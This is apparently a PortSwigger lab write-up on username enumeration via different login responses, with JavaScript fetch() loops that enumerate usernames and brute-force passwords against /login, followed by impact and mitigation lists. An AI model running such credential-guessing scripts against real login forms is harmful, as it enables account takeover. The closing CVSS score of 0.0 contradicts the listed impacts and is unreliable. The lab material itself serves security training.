


# Description

[**Lab Link**](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-different-responses)

**Lab**: _Username enumeration via different responses_

The application has a username and password login form. The application is secure in general.

However, it is possible that a few users are not being careful while creating accounts, and maybe be using potentially common usernames and passwords.

With enough time and compute, it is possible to brute-force the login for some of these users.

# Steps to Exploit

1. Open the lab link in a browser.
2. Try logging in with different usernames and passwords.
3. While manually attempting might be possible, but it is still slow. Copy a single login request as a cURL / fetch / etc.
4. Use a script to automate the login attempts with a list of common usernames and passwords.
5. First, to search for valid usernames keep iterating until you get the "Invalid password" response. This indicates that the username is valid, but the password is incorrect.
6. Once you have a valid username, you can then iterate through the list of common passwords to find the correct password for that username.

# Proof of Concept 

Find Usernames:
```js
usernames.forEach(username => fetch("/login", {
  "body": `username=${username}&password=hi`,
  "method": "POST",
}).then(r => r.text()).then(r => r.includes(" password") ? console.log(username) : null));
```



Find Passwords:
```js
passwords.forEach(password => fetch("/login", {
  "body": `username=${username}&password=${password}`,
  "method": "POST",
}).then(r => r.text()).then(r => !r.includes("Incorrect password") ? console.log(password) : null));
```




# Impact

- Impersonation of users
- Unauthorized access to sensitive information
- Privilege escalation (compromised administrative accounts)

# Mitigation / Remediation

- Ask users to create strong passwords and usernames.
- Implement account lockout after a certain number of failed login attempts.
- Implement rate limiting on login attempts.
- Implement multi-factor authentication (MFA) to add an additional layer of security.
- Send emails to users when there are multiple failed login attempts on their accounts.
- Reject clarifying whether the username exists or not in the system. Instead, return a generic error message like "Invalid username or password" for all failed login attempts.

# CVSS Justification

```
Base Score: 0.0
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:N
```

